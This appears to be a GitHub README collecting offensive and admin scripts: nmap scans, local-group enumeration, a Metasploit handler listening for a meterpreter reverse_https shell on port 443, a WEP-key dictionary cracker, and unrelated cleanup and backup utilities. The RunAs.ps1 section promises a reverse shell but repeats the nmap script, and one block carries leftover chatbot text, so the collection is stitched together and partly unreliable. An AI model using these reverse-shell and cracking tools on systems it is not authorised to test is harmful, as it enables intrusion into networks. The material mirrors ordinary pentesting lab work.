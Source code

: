 # Scripts

* LocalAdmins.ps1 - Checks a file of host servers for members of the Administrators, Remote Desktop Users, and Users local groups.
* NSLookUp.ps1 - Runs a NSLookUp query against a file of host servers.
* PrivateIP - Runs a Nmap scan on against a file of host servers with Private IP's to check both TCP and UDP ports.
* PublicIP - Runs a Nmap scan on against a file of host servers with Public IP's to check both TCP and UDP ports.
* RunAs.ps1 - Runs a 'RunAs' command to switch context of user whilst triggering and initiating a reverse shell to the attacker.
* Meterpreter.rc - Sets a Meterpreter listener/handler with options (msfconsole -q -r Meterpreter.rc).
* WEPCracker.py - Wrapper script to crack WEP using Airdecap-ng.
* SystemCleanUp.ps1 - This script cleans up temporary files older than 7 days, log files older than 30 days, and clears the Recycle Bin.


### LocalAdmins.ps1

```
$servers = Get-Content C:\servers.txt
$groups = 'Administrators', 'Remote Desktop Users', 'Users'
$results = foreach ($server in $servers) {
    foreach ($group in $groups) {
        $obj = [ADSI]"WinNT://$server/$group"
        $obj.Invoke('Members') | % {
            $path = ([adsi]$_).path
            [pscustomobject]@{
                Computer = $server
                Group = $group
                Domain = $(Split-Path (Split-Path $path) -Leaf)
                User = $(Split-Path $path -Leaf)
            }
        }
    }
}
$results
```

### NSLookUp.ps1

```
$servers = get-content "C:\temp\hostlist.txt"
foreach ($Server in $Servers)
{
    $Addresses = $null
    try {
        $Addresses = [System.Net.Dns]::GetHostAddresses("$Server").IPAddressToString
    }
    catch { 
        $Addresses = "Server IP cannot resolve."
    }
    foreach($Address in $addresses) {
        write-host $Server, $Address 
    }
}
```

### Private IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Private -oG PrivateTCP.txt
nmap -sU -v -iL ./Private -oG PrivateUDP.txt
done
```

### Public IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### RunAs.ps1

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### Meterpreter.rc

```
use exploit/multi/handler 
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 192.168.49.91 
set LPORT 443
set ExitOnSession false 
exploit -j -z 
```

### WEPCracker.py

```
#!/usr/bin/python

import sys, binascii, re
from subprocess import Popen, PIPE

f = open(sys.argv[1], 'r')
for line in f:
    wepKey = re.sub(r'\W+', '', line)
    
    if len(wepKey) != 5 :
        continue
    hexKey = binascii.hexlify(wepKey)
    print "Trying with WEP key: " +wepKey + " Hex: " + hexKey
    p = Popen(['/usr/bin/airdecap-ng', '-w', hexKey, 'WEP-Advanced.cap'], stdout=PIPE)
    output = p.stdout.read()
    finalResult = output.split('\n')[4]
    
    if finalResult.find('1') != -1 :
        print "Success WEP Key Found: " + wepKey
        sys.exit(0)
print "Failure! WEP key could not be found with the existing dictionary!"
```

### SystemCleanup.ps1

```
# System Cleanup Script
# Removes temporary files, log files, and clears recycle bin to optimize system performance

Write-Host "Starting System Cleanup..." -ForegroundColor Green

# Function to delete files from a specified directory older than a certain number of days
function Cleanup-Files {
    param (
        [string]$Path,
        [int]$DaysOld = 7
    )
    if (Test-Path $Path) {
        Get-ChildItem -Path $Path -Recurse -File | Where-Object {
            $_.CreationTime -lt (Get-Date).AddDays(-$DaysOld)
        } | Remove-Item -Force -Verbose
    } else {
        Write-Host "Path $Path does not exist." -ForegroundColor Yellow
    }
}

# Cleaning Windows Temp folder
Write-Host "Cleaning Temp folder..." -ForegroundColor Cyan
Cleanup-Files -Path "$env:Temp" -DaysOld 7

# Cleaning system Temp folder
Write-Host "Cleaning System Temp folder..." -ForegroundColor Cyan
Cleanup-Files -Path "C:\Windows\Temp" -DaysOld 7

# Deleting old log files
Write-Host "Cleaning Log files..." -ForegroundColor Cyan
Cleanup-Files -Path "C:\Windows\Logs" -DaysOld 30
Cleanup-Files -Path "C:\ProgramData\Logs" -DaysOld 30

# Clearing Recycle Bin
Write-Host "Clearing Recycle Bin..." -ForegroundColor Cyan
Clear-RecycleBin -Confirm:$false -Verbose

Write-Host "System Cleanup Completed!" -ForegroundColor Green
```

How to Use:<br/>
1. Save the script as SystemCleanup.ps1.<br/>
2. Open PowerShell as an Administrator.<br/>
3. Run the script using: .\SystemCleanup.ps1.<br/>

This script cleans up temporary files older than 7 days, log files older than 30 days, and clears the Recycle Bin. You can customize the paths and retention periods as needed. Let me know if you need further assistance!

### BackupAutomation.py

```
import os
import shutil
import time
from datetime import datetime

# Configuration
SOURCE_DIR = "/path/to/source"  # Path to the folder you want to back up
BACKUP_DIR = "/path/to/backup"  # Path where the backup will be stored
BACKUP_RETENTION_DAYS = 7       # Number of days to keep old backups

def create_backup(source, destination):
    """Creates a timestamped backup."""
    timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
    backup_path = os.path.join(destination, f"backup_{timestamp}")
    
    try:
        shutil.copytree(source, backup_path)
        print(f"Backup created successfully at {backup_path}")
    except Exception as e:
        print(f"Error creating backup: {e}")

def cleanup_old_backups(destination, retention_days):
    """Removes backups older than the retention period."""
    now = time.time()
    for folder in os.listdir(destination):
        folder_path = os.path.join(destination, folder)
        if os.path.isdir(folder_path):
            folder_age = now - os.path.getmtime(folder_path)
            if folder_age > retention_days * 86400:  # Convert days to seconds
                try:
                    shutil.rmtree(folder_path)
                    print(f"Deleted old backup: {folder_path}")
                except Exception as e:
                    print(f"Error deleting backup {folder_path}: {e}")

def main():
    # Ensure the backup directory exists
    if not os.path.exists(BACKUP_DIR):
        os.makedirs(BACKUP_DIR)

    # Create a new backup
    create_backup(SOURCE_DIR, BACKUP_DIR)

    # Cleanup old backups
    cleanup_old_backups(BACKUP_DIR, BACKUP_RETENTION_DAYS)

if __name__ == "__main__":
    main()
```

How to Use:<br/>
1. Save the script as BackupAutomation.py.<br/>
2. Replace /path/to/source with the directory you want to back up.<br/>
3. Replace /path/to/backup with the directory where you want the backups to be stored.<br/>
4. Run the script using: python BackupAutomation.py.<br/>

Features:
* Timestamped Backups: Creates backups with a unique timestamp in the name.
* Retention Policy: Automatically deletes backups older than the specified number of days.
* Error Handling: Includes basic error handling for common issues.
